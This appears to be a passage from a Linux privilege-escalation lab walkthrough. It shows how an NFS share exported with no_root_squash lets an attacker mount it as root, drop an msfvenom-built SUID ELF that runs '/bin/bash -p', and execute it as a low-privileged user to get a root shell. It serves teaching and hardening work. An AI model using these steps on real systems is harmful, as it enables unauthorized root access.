 Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:
```
cat /etc/exports
```
```
user@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```
Note that the /tmp share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:
```
sudo su
```
Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):
```
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```
Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
Still using Kali's root user, make the file executable and set the SUID permission:
```
chmod +xs /tmp/nfs/shell.elf
```
Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
```
/tmp/shell.elf
```